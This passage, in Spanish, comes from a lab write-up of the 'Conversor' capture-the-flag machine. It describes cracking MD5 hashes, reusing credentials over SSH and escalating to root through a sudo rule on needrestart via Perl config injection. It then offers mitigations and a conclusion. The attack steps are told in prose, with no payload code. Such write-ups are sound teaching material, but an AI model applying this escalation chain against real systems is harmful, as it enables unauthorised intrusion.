Sobre el ejemplo descargable, analizamos la estructura de la base de datos con `sqlite3`, desde la terminal, para descubrir una tabla `users` que en este caso estaba vacía. Sin embargo, al transferir la base de datos de producción, descubrimos que sí contenía usuarios registrados, con sus contraseñas cifradas. Sin embargo, el cifrado utilizado era md5, que es un algoritmo de hashing considerado débil y obsoleto para proteger contraseñas, ya que es vulnerable a ataques de fuerza bruta y a tablas rainbow. 

Además del usuario que acababamos de registrar, estaba presente el usuario `fismathack`, cuya contraseña cifrada se pudo romper fácilmente utilizando herramientas como CrackStation, lo que nos permitió obtener acceso a la cuenta de ese usuario y utilizarla para intentar acceder a otros servicios de la máquina. Comprobamos desde la shell de `www-data` que el usuario `fismathack` estaba registrado en el sistema y tenía acceso a una terminal bash, por lo que intentamos acceder mediante SSH con las credenciales obtenidas y conseguimos acceso a una shell completa.

### 4.5. Configuraciones de sudo inseguras
La configuración de `sudo` es un punto de fallo común en sistemas Linux, ya que permite a usuarios no privilegiados ejecutar comandos con privilegios elevados. Esto puede ser aprovechado por un atacante para escalar privilegios si encuentra una configuración insegura, obteniendo acceso como el usuario `root` o ejecutando binarios con permisos de superusuario.

En este caso, el usuario `fismathack` tenía permisos para ejecutar el binario `/usr/sbin/needrestart` como superusuario sin necesidad de contraseña. Analizamos su funcionamiento y descubrimos que evaluaba un fichero de configuración en formato Perl, interpretando el código escrito dentro de él. El archivo de configuración por defecto no era editable por el usuario `fismathack`, pero gracias a la opción `-c`, fue posible apuntar a un fichero de configuración controlado por el usuario.

Por tanto, es posible aprovechar una vulnerabilidad de `inyección de código` Perl desde la que podemos realizar ataques desde cambios de permisos, contraseñas o incluso lanzar una `reverse shell` desde el usuario root. En este caso, decidimos activar los permisos `suid` de `/bin/bash`, lo que, según [GTFOBins](https://gtfobins.org/gtfobins/bash/#shell), permite que cualquier usuario acceda a una terminal de superusuario con utilizar el argumento `-p` de bash. 

### 4.6. Mitigación y medidas de endurecimiento
El vector de ataque utilizado para vulnerar esta máquina es tan sólo una de las posibilidades que la cadena de vulnerabilidades y errores de configuración permiten. Por tanto, vamos a centrarnos en mitigar las vulnerabilidades en lugar de tapar los agujeros por los que hemos pasado.

#### 4.6.1. Aplicación web
La aplicación web realiza un **tratamiento inseguro de las entradas del usuario**, en términos de los archivos XML y XSLT de entrada. Es imprescindible limitar las plantillas XSLT aplicadas mediante una **prevalidación** que garantice que no contienen etiquetas peligrosas. Además, es recomendable implementar un mecanismo de **sandboxing** para el motor XSLT, limitando las funciones disponibles y **restringiendo el acceso a recursos del sistema**, como archivos o comandos. Por otro lado, recordemos que la versión 1.0 de XSLT no permitía la escritura de ficheros, por lo que deberían **desactivarse todas las extensiones innecesarias** o no utilizadas, para acotar la interacción del usuario con la plataforma.

Contando con un fallo en el mecanismo de validación mencionado, el motor XSLT se ejecuta desde el usuario `www-data`. Por ello, es importante llevar a cabo una buena configuración de permisos de lectura y escritura en el sistema de archivos, para evitar que un atacante pueda escribir archivos maliciosos en directorios accesibles por el motor XSLT. Sin embargo, en este caso el directorio al que apuntaba `cron` estaba ubicado dentro de la carpeta `/var/www/conversor.htb/`, a la que `www-data` debería tener acceso. En este caso sería recomendable mover el directorio de scripts a una ubicación fuera del alcance de `www-data`, o restringir los permisos de escritura en ese directorio para evitar que un servicio web pueda escribir ficheros en una ruta de ejecución automática.

#### 4.6.2. Gestión de contraseñas
La máquina objetivo presenta dos problemas principales en la gestión de credenciales de usuario: cifrado débil de contraseñas almacenadas y reutilización de credenciales.

Para mitigar el primer problema, es necesario utilizar algoritmos de hashing seguros y modernos para proteger las contraseñas almacenadas en la base de datos, como bcrypt, scrypt o Argon2, entre otros, que son resistentes a ataques fuerza bruta y tablas rainbow, y que además incorporen un factor de sal para cada contraseña, lo que dificulta aún más su ataque. 

Para mitigar el segundo problema, es importante fomentar buenas prácticas de seguridad entre los usuarios, como el uso de contraseñas únicas y complejas para cada cuenta, y evitar la reutilización de contraseñas en diferentes servicios. De lo contrario, la vulnerabilidad de un servicio inseguro puede vulnerar un servicio seguro, como SSH. Además, es recomendable implementar mecanismos de autenticación multifactor (MFA) para añadir una capa adicional de seguridad a las cuentas de usuario, especialmente para cuentas con privilegios elevados.

#### 4.6.3. Configuración de sudo
La configuración de `sudo` debe ser lo más restrictiva posible, limitando los comandos que los usuarios pueden ejecutar con privilegios elevados y evitando configuraciones que permitan la ejecución de binarios personalizados o scripts sin restricciones. En este caso, el usuario `fismathack` tenía permisos para ejecutar el binario `/usr/sbin/needrestart` como root sin contraseña, lo que permitió una escalada de privilegios a través de una vulnerabilidad de inyección de código en el fichero de configuración de ese binario.

En ningún caso se debería permitir la ejecución de binarios como superusuario sin contraseña, ya que cualquier atacante que consiga una `reverse shell` o ejecución remota de código/comandos dentro del sistema podría escalar privilegios sin tener que dedicar esfuerzos a obtener la contraseña del usuario. 

Por otro lado, la inclusión de binarios no controlados en la configuración de `sudo` es una mala práctica, ya que esos binarios pueden contener vulnerabilidades o funcionalidades peligrosas que pueden ser explotadas por un atacante para escalar privilegios. En este caso concreto, el uso del lenguaje de programación Perl para los ficheros de configuración permite la ejecución arbitraria de código, como root y sin necesidad de contraseña... Por tanto, es recomendable limitar tanto la configuración de `sudo` como la funcionalidad de `needrestart`, ya sea desactivando la posibilidad de elegir un fichero de configuración personalizado o restringiendo las funciones disponibles en ese fichero para evitar la ejecución de código arbitrario.

## 5. Conclusión

La resolución de `Conversor` demuestra que una máquina puede quedar completamente comprometida sin necesidad de vulnerabilidades especialmente exóticas. El acceso inicial se obtuvo a través de un uso inseguro de plantillas XSLT controladas por el usuario, que permitían escribir ficheros en el servidor gracias al soporte de extensiones EXSLT. Esa capacidad, combinada con una tarea programada que ejecutaba automáticamente scripts Python en una ruta accesible por la aplicación, permitió conseguir ejecución remota de código como `www-data`. A partir de ahí, la presencia de credenciales almacenadas con un hash débil en una base de datos SQLite facilitó el salto al usuario `fismathack`, y una configuración insegura de `sudo` sobre `needrestart` terminó proporcionando acceso como `root`.

Más allá de la explotación concreta, esta máquina deja una idea clara: el impacto real no lo determinó una única vulnerabilidad aislada, sino el encadenamiento de varios errores de diseño y configuración. Permitir que un usuario controle una plantilla ejecutada por el backend, mantener directorios con permisos de escritura en rutas de ejecución automática, almacenar contraseñas con algoritmos obsoletos y delegar binarios potentes en `sudo` sin restricciones es exactamente la clase de cadena que convierte una aplicación *funcional* en un compromiso total del sistema.

La principal lección aprendida tras completar esta máquina es que, durante la enumeración y la post-explotación, merece más la pena buscar **cómo se conectan entre sí los componentes del sistema** que obsesionarse con encontrar una única vulnerabilidad *estrella*. En `Conversor`, XSLT por sí solo no provocaba RCE; la base de datos vulenrable por sí sola no implicaba acceso al sistema; y `needrestart` no supone un fallo de seguridad si no se ejecuta como superusuario. Sin embargo, cuando una aplicación permite escribir donde otro proceso ejecuta, cuando un secreto reutilizado se comparte entre servicios y cuando `sudo` expone herramientas que interpretan configuración como código, el sistema entero queda a merced del atacante.

En otras palabras: una superficie de ataque pequeña no implica una arquitectura segura. Muchas veces, el verdadero fallo no está en una tecnología concreta, sino en la combinación de fallos pequeños en varios puntos del stack.

## 6. Referencias
- https://hacktricks.wiki/en/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations.html
- https://gosecure.ai/blog/esi-injection-part-2-abusing-specific-implementations
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSLT%20Injection/README.md
- https://www.revshells.com/
- https://www.w3.org/TR/xslt-10
- https://www.w3.org/Style/XSL/
- https://exslt.github.io/exsl/elements/document/index.html
- https://exslt.github.io/exsl/index.html
- https://flask.palletsprojects.com/en/stable/
- https://flask.palletsprojects.com/en/stable/patterns/sqlite3/
- https://flask.palletsprojects.com/en/stable/tutorial/database/
- https://flask.palletsprojects.com/en/stable/tutorial/factory/
- https://gtfobins.org/gtfobins/bash/#shell
- https://manpages.ubuntu.com/manpages/focal/man1/needrestart.1.html
- https://github.com/liske/needrestart